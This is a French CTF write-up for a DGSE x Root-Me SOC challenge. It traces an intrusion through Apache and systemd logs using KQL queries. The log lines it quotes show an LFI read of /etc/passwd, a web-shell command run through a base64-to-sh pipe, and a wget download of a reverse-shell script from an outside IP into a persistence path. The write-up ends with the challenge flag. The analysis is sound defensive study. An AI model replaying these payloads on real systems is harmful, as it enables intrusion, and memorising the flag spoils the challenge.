 # Mission 2 DGSE x Root-Me (SOC)

![Brief](images/brief.png)

# Writeup

On nous met à disposition une plateforme SOC avec des logs Apache et des logs système. Pour constituer le flag, on nous demande les informations suivantes :

### 1. CWE de la première vulnérabilité (logs Apache)

**Type** : Local File Inclusion (LFI)

**Requête KQL/DQL** pour ne garder que les inclusions réussies :
```SQL
request : "*../*etc/*" AND status=200
```
**Résultat :**

![Result](images/result1.png)

**Extrait de log** :
```SQL
@timestamp:00:21:36.588 2025-03-28
log: 10.143.17.101 - - [28/Mar/2025:00:21:36 +0100] "GET /?lang=/etc&page=passwd%2500 HTTP/1.1" ==200==
```

L'attaquant a réussit à inclure le fichier */etc/passwd* --> `CWE-98`

### 2. CWE de la seconde vulnérabilité (logs Apache)

**Type** : File Upload arbitraire

**Requête KQL/DQL** pour détecter les commandes passées en paramètre ***cmd*** :
```SQL
verb : GET and response : 200 and request : "*?cmd=*"
```
**Résultat :**

![Result2](images/result2.png)

**Extrait de log** :
```SQL
@timestamp:00:31:40.526 2025-03-28
log: 10.143.17.101 - - [28/Mar/2025:00:31:40 +0100] "GET /admin-page/upload/68af9111db3749e2e8af39e255fd874c/ev1L.php.png?cmd=echo+'cGluZyAtYyAxIGdvb2dsZS5jb20='|base64+-d|sh
```

Un fichier nommé ***ev1L.php.png*** a été uploadé, puis invoqué avec une commande système via le paramètre ***cmd*** →  `CWE-434`

### 3. Adresse IP du serveur (logs systemd)

On peut rechercher **toutes** les occurrences de téléchargement via `wget` grâce à cette requête:
```SQL
message : "wget"
```
**Résultat :**

![Result2](images/result3.png)

**Extrait de log** :
```JSON
"message": [ "EXECVE argc=4 a0=\"@opensearch-dashboards-highlighted-field@wget@/opensearch-dashboards-highlighted-field@\" a1=\"http://163.172.67.201:49999/s1mpl3-r3vsh3l.sh\" a2=\"-O\" a3=\"/root/.0x00/pwn3d-by-nullv4stati0n.sh\""]
```

Le script a été téléchargé depuis l'adresse: `163.172.67.201`

### 4. Chemin du fichier de persistance

En reprenant le résultat précédent, on peut extraire le chemin: `/root/.0x00/pwn3d-by-nullv4stati0n.sh`

**Flag:**
```
RM{CWE-98:CWE-434:163.172.67.201:/root/.0x00/pwn3d-by-nullv4stati0n.sh}
```
